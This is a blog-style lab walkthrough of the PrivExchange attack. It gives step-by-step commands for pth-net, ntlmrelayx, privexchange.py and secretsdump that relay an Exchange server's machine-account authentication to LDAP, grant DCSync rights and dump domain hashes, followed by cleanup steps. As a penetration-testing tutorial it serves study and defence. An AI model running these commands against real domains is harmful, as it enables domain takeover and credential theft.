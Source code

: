 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0200
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange exploit. See [_dirkjan](https://twitter.com/_dirkjan)'s blog post [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) for the original discovery.

## Overview

The PrivExchange tool simply logs in on Exchange Web Services to subscribe to push notifications to a specific host. This will make the Exchange server's machine account send its NTLMv2 hash back to the attacker host. As this machine account usually has severely high privileges in the domain, it can then be relayed to the domain controller to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password, or NTLM hash.
- A valid Exchange Server hostname or IP address. We can check this with `pth-net` from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

![pth-net rpc](../assets/img/privexchange/rpc.jpg)

### The different components of the attack

- `lab.local` - Domain name
- `dc01.lab.local` - Domain controller
- `mail01.lab.local` - Exchange server
- `192.168.0.142` - Attacker host

## Exploitation

Run `ntlmrelayx` with the DC IP that we want to relay to, and specify a domain user we control, who we want to escalate privileges for.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter is the `attacking host` and the following parameter is the Exchange server. We also have to give it the domain, username and password for the user we control. Note that the user must have a mailbox connected.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

This should take exactly one minute. An HTTP connection comes in from the exchange server, and we request authentication from it. It replyed with the NTLMv2 hash of the `MAIL01$` machine account. We capture and relay the credentials over LDAP to the domain controller, which is used to modify the ACL privileges of our user to get DCsync rights.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-13-03-50.png)

### Wireshark

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the `/privexchange` URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP
![](../assets/img/privexchange/2019-04-11-12-31-08.png)

## Cleanup

### Using aclpwn

Any ACL attack using `ntlmrelayx` saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore

![](../assets/img/privexchange/2019-04-11-12-27-42.png)

### Using GUI

In `"Active Directory Users and Computers”`, enable `Advanced Features (in View Menu)`,`Right-click [Domain -> Security -> Advanced]`. Then look for the domain username account that you just gave `"Replicating Directory Changes”` and `"Replicating Directory Changes All”` privileges to and remove those Permission entries in the `"Allow”` checkboxes.

![](../assets/img/relaydelegation/2019-04-17-10-45-07.png)

We can use ADSI Edit to view the properties of the domain object, where we can see that the domain user account we gave DCsync privileges have those privileges:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#